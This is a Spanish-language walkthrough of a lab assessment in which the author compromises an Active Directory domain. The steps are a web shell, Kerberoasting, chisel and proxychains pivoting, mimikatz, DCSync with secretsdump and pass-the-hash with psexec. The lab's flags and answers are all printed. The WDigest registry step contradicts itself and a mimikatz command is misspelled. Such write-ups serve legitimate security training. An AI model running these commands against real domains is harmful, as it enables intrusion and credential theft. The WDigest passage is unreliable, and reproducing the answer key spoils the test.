

# Enumeración y Ataques a AD - Evaluación de Habilidades Parte I

## Escenario

>Un miembro del equipo inició una prueba de penetración externa y fue trasladado a otro proyecto urgente antes de que pudiera terminar. El miembro del equipo pudo encontrar y explotar una vulnerabilidad de carga de archivos después de realizar un reconocimiento del servidor web externo. Antes de cambiar de proyecto, nuestro compañero de equipo dejó un shell web protegido con contraseña (con las credenciales: **`admin:My_W3bsH3ll_P@ssw0rd!`**) en su lugar para que comenzáramos desde el directorio **`/uploads`**. Como parte de esta evaluación, nuestro cliente, Inlanefreight, nos autorizó a ver hasta dónde podemos llegar y está interesado en ver qué tipos de problemas de alto riesgo existen dentro del entorno de AD. Aproveche el shell web para obtener un punto de apoyo inicial en la red interna. Enumere el entorno de Active Directory en busca de fallas y configuraciones incorrectas para moverse lateralmente y, en última instancia, lograr comprometer el dominio.

>Aplique lo que aprendió en este módulo para comprometer el dominio y responda las preguntas a continuación para completar la parte I de la evaluación de habilidades.

## Preguntas

1. **Escribe el contenido del archivo flag.txt al escritorio del administrador del servidor web**
   - [x] **`JusT_g3tt1ng_st@rt3d!`**

Al ir a la ruta indicada donde estaba la Web Shell utilizamos las credenciales especificadas para iniciar sesión, luego simplemente creamos una Reverse Shell en [revshells.com](https://www.revshells.com/), especificando el puerto en cual estaríamos en escucha.


Este comando lo pudimos copiar y ejecutar en la web shell y obtener una reverse shell, donde pudimos luego navegar al directorio y obtener la flag.


2. **Kerberoast una cuenta con el SPN MSSQLSvc/SQL01.inlanefreight.local:1433 y escribe el nombre de la cuenta como respuesta**
   - [x] **`svc_sql`**

Para lograr esto, nos aprovechamos de la web shell y subimos la herramientas **PowerView.ps1**, para luego importarla y ejecutar el siguiente comando de búsqueda:


3. **Descifrar la contraseña de la cuenta. Enviar el valor en texto claro.**
   - [x] **`lucky7`**

Para lograr crackear el hash de forma offline, ejecutamos el siguiente comando:

```powershell
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\hash_scv_information.csv -NoTypeInformation
```

Con esto transferimos la información del comando **Get-DomainSPNTicket** a un archivo con nombre **hash_scv_information.csv**, esto realizo por comodidad de poder copiar y pegar el Hash en un archivo y luego utilizar **Hashcat** contra el archivo.


Ahora ya tenemos un Set de Credenciales que podemos usar luego **svc_sql:lucky7**. Cabe destacar que estos ataques solo tienen éxito debido a la débil contraseña que tiene configurada las cuentas.

4. **Escribe el contenido del archivo flag.txt en el escritorio de Administrator en MS01**
   - [x] **`spn$_r0ast1ng_on_@n_0p3n_f1re`**

Luego de hacer un reconocimiento en el sistema vemos que estamos **WEB-WIN01**, además que tenemos otra interfaz de red **Ethernet1** con la Dirección **172.16.6.100**. Descubrimos que **MS01** es el nombre del Host en **172.16.6.50**, por lo que tenemos conexión desde nuestra máquina actual sobre la cual tenemos control.

Crearemos una **PSSession** para conectarnos mediante WinRM a la máquina **MS01**, esto lo podemos lograr gracias a las credenciales de **svc_sql** que conseguimos descifrar anteriormente.


Otra forma de poder confirmar esto, es realizando un **PortForwarding** con **chisel**, por lo que simplemente transferimos la herramienta y luego la iniciamos en modo servidor en el host de Pivoting que **WEB-WIN01**, luego en nuestra máquina de atacante nos conectamos al servidor de Chisel, consiguiendo así un PortForwarding, para luego utilizar **proxychains** y ver si podemos confirmar conexión con la máquina.

```shell
.\chisel.exe server -v -p 1234 --socks5 # En el Servidor de Pivoteo
./chisel client <Dirección IP>:1234 socks # En la máquina Atacante
```

Con esto ya tenemos la conexión procedemos al uso de **Proxychians** con **CrackMapExec**.


Al ver **(Pwn3d!)**, confirmamos que podemos conectarnos a dicha máquina por lo que procedemos a utilizar **xfreerdp** para conectarnos a la máquina, de igual manera podemos hacerlo mediante **Evil-WinRM** o **Psexec.py**.

Por lo que realizamos la conexión:

```shell
proxychains psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
```

De esta forma logramos obtener la sesión y conseguimos la contraseña en el directorio.



5. **Busque credenciales de texto claro para otro usuario de dominio. Envíe el nombre de usuario como respuesta.**
   - [x] **`tpetty`**

Al ver que nos están solicitando una Contraseña en texto claro podemos intentar transferir la herramienta **Mimikatz** a dicha máquina para realizar una búsqueda de la misma. Esto lo podemos hacer fácilmente mediante un copiar y pegar del ejecutable desde nuestra máquina de atacante hacia el escritorio de **MS01**, estableciendo una conexión **RDP** con **proxychains** y **xfreerdp**

```shell
proxychains xfreerdp /u:svc_sql /p:lucky7 /v:172.16.6.50
```

En este punto podemos tanto seguir operando mediante RDP o simplemente operar desde la conexión establecida con **psexec**.

Ya con la herramienta en la máquina podemos ejecutar **mimikatz** en búsqueda de contraseña en texto claro para los usuarios, esto se puede hacer usando:

```c
privilege::debug
serkulsa::logonpasswords
```

Pero no devuelve ninguna contraseña en texto claro, por lo que hacemos una búsqueda en nuestras notas y vemos lo siguiente en la clase **LLMNR/NBT-NS Poisoning**

- ***`LLMNR y NBT-NS`** son componentes de Microsoft Windows que sirven como métodos alternativos de identificación de hosts que pueden ser usados cuando falla DNS. Si falla DNS, por lo general, preguntará a las otras máquinas en al red local para la dirección correcta vía **LLMNR**, Si **LLMNR** falla **NBT-NS** será usado, este identifica sistemas en una red local mediante su nombre de **NetBIOS**, utiliza el puerto **`137` UDP**.*

En esta clase intentamos realizar un envenenamiento en la red con **Respoder**, pero al final de la clase nos dan que una forma de de evitar el ataque es Deshabilitar **LLMRN/NBT-NS** lo que evitaría ver las contraseña en texto claro si usáramos herramientas como **mimikatz**, por lo que es posible que entonces debamos habilitar dichos proveedores de autenticación. En concreto verificamos que aquel que proporciona la vulnerabilidad de Contraseñas en Texto Claro si esta habilitado es **WDigest**, explicación más afondo en el [articulo](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/#:~:text=From%20the%20table%20above%2C%20you%20can%20see%20that%20Windows%207%2C%208%2C%20Server%202008%20R2%20and%20Server%202012%C2%A0%20are%20by%20default%20unprotected%20and%20will%C2%A0leak%20plaintext%20wdigest%20passwords%20via%20mimikatz.%20However%2C%20if%20you%20add%20the%20DWORD%20registry%20keyword%20UseLogonCredentialand%20set%20to%200). 

En dicho articulo vemos que para deshabilitar WDigest se puede hacer de la siguiente forma:

```shell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0
```

El valor **0** significa deshabilitar, por lo que el valor **1** lo habilitaría.


Para luego confirmar si el cambio fue exitoso ejecutamos la siguiente petición:

```shell
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest"
```

Vemos que cambiamos el valor de **UseLogonCredential** a 0


Ahora si volvemos a ejecutar Mimikatz lograremos ver las credenciales es texto plano, si es que el sistema almaceno alguna en la memoria. Pero antes primero debemos reiniciar.

```shell
shutdown /r /t 0 /f
```

Ahora si, ejecutamos **sekurlsa::logonpasswords**, y esperamos a encontrar el usuario.


6. **Escribe la contraseña en texto claro de dicho usuario**
   - [x] **`Sup3rS3cur3D0m@inU2eR`**

Arriba la respuesta. :)

7. **¿Qué ataque puede realizar este usuario?**
   - [x] **DCSyc**

Para lograr esto simplemente descargamos **SharpHound.exe** en la máquina **WEB-WIN01**, y la ejecutamos obteniendo el archivo **.zip** que debemos de cargar en **BloodHound**.


Luego utilizamos una herramienta que podemos ver en la imagen **PSUpload.ps1**, módulo que utilizaremos parar cargar dicho archivo .zip en nuestra máquina de atacante.

Creamos un servidor de carga **uploadserver**, con python y cargamos el archivo.


Cargamos los archivos en BloodHound y podemos ver que podemos realizar el Ataque **DCSync**

8. **Tome el control del dominio y envíe el contenido del archivo flag.txt en el escritorio de Administrator en DC01**
   - [x] **`r3plicat1on_m@st3r!`**

Para poder realizar el ataque utilizaremos **proxychains secretsdump.py** para dumpear los hashes.


Ahora que tenemos dichos hashes LMHASH:NTHASH, podemos utilizar estos hashes para autenticarnos al DC con **psexec.py**.

```ruby
proxychains psexec.py INLANEFREIGHT.LOCAL/administrator@172.16.6.3 -hashes aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0
```

Ya conectados podemos ir a Desktop y visualizar la flag final.


